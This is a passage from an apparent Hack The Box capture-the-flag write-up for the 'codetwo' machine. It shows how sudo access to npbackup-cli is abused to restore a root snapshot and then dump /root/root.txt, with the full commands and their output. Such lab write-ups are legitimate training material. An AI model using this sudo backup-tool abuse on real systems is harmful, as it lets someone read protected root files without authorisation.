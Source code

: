 ``` sh

```
Then i tried to restore the backup and access it but i couldn't as the owner of the directory was `root` user and `marco` didn't had the privileges
``` sh
marco@codetwo:~$ sudo npbackup-cli -c custom.conf -r /tmp/restore --snapshot-id 472f57f9 --restore-includes /root/root.txt
2025-08-17 20:06:59,879 :: INFO :: npbackup 3.0.1-linux-UnknownBuildType-x64-legacy-public-3.8-i 2025032101 - Copyright (C) 2022-2025 NetInvent running as root
2025-08-17 20:06:59,908 :: INFO :: Loaded config 09F15BEC in /home/marco/custom.conf
2025-08-17 20:06:59,920 :: INFO :: Launching restore to /tmp/restore
restoring snapshot 472f57f9 of [/root] at 2025-08-17 20:03:33.37564079 +0000 UTC by root@codetwo to /tmp/restore
Summary: Restored 2 / 1 files/dirs (33 B / 33 B) in 0:00
2025-08-17 20:07:02,357 :: INFO :: Successfully restored data
2025-08-17 20:07:02,357 :: INFO :: Runner took 2.43832 seconds for restore
2025-08-17 20:07:02,358 :: INFO :: Operation finished
2025-08-17 20:07:02,365 :: INFO :: ExecTime = 0:00:02.489227, finished, state is: success.

marco@codetwo:~$ cat /tmp/restore/root/root.txt
cat: /tmp/restore/root/root.txt: Permission denied

marco@codetwo:~$ sudo cat /tmp/restore/root/root.txt
[sudo] password for marco: 
Sorry, user marco is not allowed to execute '/usr/bin/cat /tmp/restore/root/root.txt' as root on codetwo.
```
and then used that snapshot(snapshot-id) to dump the contents within the backup root directory (p.s. we can use the old config file for executing this command as now its not creating any backup of any particular directory, its just displaying the already backedup snapshots) 
``` sh
sudo npbackup-cli -c npbackup.conf --dump /root/root.txt --snapshot-id 472f57f9
ce54a*****597ad52
```  

Finally [submitted](https://labs.hackthebox.com/achievement/machine/1601323/692) the flag